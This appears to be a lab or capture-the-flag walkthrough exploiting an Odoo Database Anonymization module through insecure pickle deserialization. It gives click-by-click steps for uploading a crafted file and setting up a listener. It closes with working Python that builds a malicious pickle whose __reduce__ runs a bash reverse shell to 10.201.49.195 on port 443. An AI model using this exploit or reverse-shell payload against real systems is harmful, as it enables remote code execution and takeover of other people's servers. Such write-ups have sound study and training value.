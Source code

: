 ```bash
:~/Obscure# python3 s.py
```

```bash
:~/Obscure# ls
exploit.pickle  script.py  s.py
```





<img width="1220" height="469" alt="image" src="https://github.com/user-attachments/assets/da974bec-ba42-4fd8-99a5-0f3d92cc86d3" />









<p>

- click <code>Settings</code><br>
- click x to remove Apps from the Search field<br>
- search for <code>database</code><br>
- click <code>Install</code> in  <code>Database Anonymization</code><br>
- refresh<br>
- click <code>Settings</code><br>
- click <code>Anonymize database</code><br>
- click <code>Anonymize Database</code><br>
- you should get a message: Anonymization successful.<br>Donot forget to save the resulting file to a safe place because you will not be able to revert the anonymization without this file.<br>This file is also stored in the /var/lib/odoo directory. The absolute file path is: /var/lib/odoo/field_anonymization_main_1.pickle.<br>
- clicked <code>Save></code><br>
- <code>Anonymization successful</code>.<br>Donot forget to save the resulting file to a safe place because you will not be able to revert the anonymization without this file.<br>This file is also stored in the /var/lib/odoo directory. The absolute file path is: /var/lib/odoo/field_anonymization_main_1.pickle.Mbr>
- refresh<br>
- click <code>Anonymize Database</code><br>
- click <code>Upload your file</code><br>
- click <code>Open</code><br>- 
- set up a listener in the same port considered in the payload<br>
- click <code>Reverse the Database Anonymization</code></p>

<br>
<br>


import pickle
import os

class Exploit:
    def __reduce__(self):
        return (os.system, ('bash -i >& /dev/tcp/10.201.49.195/443 0>&1',))

with open('exploit.pickle', 'wb') as f:
    pickle.dump(Exploit(), f)
